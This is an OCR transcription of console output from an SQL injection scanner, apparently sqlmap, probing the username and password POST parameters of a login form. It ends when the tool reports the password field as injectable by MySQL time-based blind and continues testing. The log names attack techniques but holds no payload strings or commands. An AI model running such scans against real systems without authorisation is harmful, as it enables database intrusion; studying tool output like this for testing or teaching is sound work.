 [13:38:22] [INFO] testing 'Microsoft SQL Server/Sybase stacked
queries (comment)'
[13:38:22] [INFO] testing 'Oracle stacked queries
(DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[13:38:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind
(SELECT)'
[13:38:22] [INFO] testing 'PostgreSQL > 8.1 AND time-based
blind'
[13:38:23] [INFO] testing 'Microsoft SQL Server/Sybase
time-based blind'
[13:38:23] [INFO] testing 'Oracle AND time-based blind'
[13:38:23] [INFO] testing 'Generic UNION query (NULL) - 1 to 10
columns'
[13:38:23] [WARNING] using unescaped version of the test
because of zero knowledge of the back-end DBMS. You can try to
explicitly set it using option '--dbms'
[13:38:26] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10
columns'
[13:38:29] [WARNING] POST parameter 'username' is not
injectable
[13:38:29] [INFO] testing if POST parameter 'password' is
dynamic
[13:38:29] [WARNING] POST parameter 'password' does not appear
dynamic
[13:38:30] [WARNING] heuristic (basic) test shows that POST
parameter 'password' might not be injectable
[13:38:30] [INFO] testing for SQL injection on POST parameter
'password'
[13:38:30] [INFO] testing 'AND boolean-based blind - WHERE or
HAVING clause'
[13:38:30] [INFO] testing 'MySQL >= 5.0 boolean-based blind -
Parameter replace'
[13:38:30] [INFO] testing 'MySQL >= 5.0 AND error-based -
WHERE, HAVING, ORDER BY or GROUP BY clause'
[13:38:30] [INFO] testing 'PostgreSQL AND error-based - WHERE
or HAVING clause'
[13:38:31] [INFO] testing 'Microsoft SQL Server/Sybase AND
error-based - WHERE or HAVING clause'
[13:38:31] [INFO] testing 'Oracle AND error-based - WHERE or
HAVING clause (XMLType)'
[13:38:31] [INFO] testing 'MySQL >= 5.0 error-based - Parameter
replace'
[13:38:31] [INFO] testing 'MySQL inline queries'
[13:38:31] [INFO] testing 'PostgreSQL inline queries'
[13:38:31] [INFO] testing 'Microsoft SQL Server/Sybase inline
queries'
[13:38:31] [INFO] testing 'MySQL > 5.0.11 stacked queries
(SELECT - comment)'
[13:38:32] [INFO] testing 'PostgreSQL > 8.1 stacked queries
(comment)'
[13:38:32] [INFO] testing 'Microsoft SQL Server/Sybase stacked
queries (comment)'
[13:38:32] [INFO] testing 'Oracle stacked queries
(DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[13:38:32] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind
(SELECT)'
[13:38:42] [INFO] POST parameter 'password' seems to be 'MySQL
>= 5.0.12 AND time-based blind (SELECT)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip
test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for
'MySQL' extending provided level (1) and risk (1) values? [Y/n]
Y
[13:39:31] [INFO] testing 'Generic UNION query (NULL) - 1 to 20